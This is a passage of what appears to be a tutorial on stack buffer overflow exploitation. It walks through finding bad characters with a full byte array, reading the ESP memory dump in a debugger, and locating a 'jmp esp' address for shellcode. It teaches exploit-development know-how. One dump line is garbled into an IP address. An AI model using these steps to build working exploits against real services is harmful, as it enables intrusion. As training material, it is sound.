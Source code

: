 ## Check for Bad Characters
1. Replace the appended padding with:
  ```
  badchars = (
  '\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10'
  '\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20'
  '\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30'
  '\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40'
  '\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50'
  '\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60'
  '\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70'
  '\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80'
  '\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90'
  '\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0'
  '\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0'
  '\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0'
  '\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0'
  '\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0'
  '\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0'
  '\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff')
  ```
2. Restart server and debugger
3. Send buffer
4. Right click on ESP and follow in memory dump
5. Check whether any of the bytes are missing. A quick way is to look through the last column and see whether all the xF aligns
```
   01 02 03 04 05 06 07 08 09 0a 0b 0c 0d 0e 0f
192.168.1.23 14 15 16 17 18 19 1a 1b 1c 1d 1e 1f
20 21 22 23 24 25 26 27 28 29 2a 2b 2c 2d 2e 2f
30 31 32 33 34 35 36 37 38 39 3a 3b 3c 3d 3e 3f
40 41 42 43 44 45 46 47 48 49 4a 4b 4c 4d 4e 4f
50 51 52 53 54 55 56 57 58 59 5a 5b 5c 5d 5e 5f
60 61 62 63 64 65 66 67 68 69 6a 6b 6c 6d 6e 6f
70 71 72 73 74 75 76 77 78 79 7a 7b 7c 7d 7e 7f
80 81 82 83 84 85 86 87 88 89 8a 8b 8c 8d 8e 8f
90 91 92 93 94 95 96 97 98 99 9a 9b 9c 9d 9e 9f
a0 a1 a2 a3 a4 a5 a6 a7 a8 a9 aa ab ac ad ae af
b0 b1 b2 b3 b4 b5 b6 b7 b8 b9 ba bb bc bd be bf
c0 c1 c2 c3 c4 c5 c6 c7 c8 c9 ca cb cc cd ce cf
d0 d1 d2 d3 d4 d5 d6 d7 d8 d9 da db dc dd de df
e0 e1 e2 e3 e4 e5 e6 e7 e8 e9 ea eb ec ed ee ef
f0 f1 f2 f3 f4 f5 f6 f7 f8 f9 fa fb fc fd fe ff
```
6. Record bad characters, including `0x00` as that is a null byte. Keep them in mind when finding a `JMP` location and when generating shellcode later on

## Finding a Register to Jump to Your Shellcode
1. Restart server and debugger, keeping it paused
2. Send buffer and crash the service
3. Check out the registers, find one that points to the buffer you sent, or somewhere close. In this case the register ESP points directly after the overwritten EIP
4. Right click on top-left assembly window
5. Search for > Command
6. Enter `jmp esp`
7. Ensure the address does not include bad characters
8. Record the address of the instruction
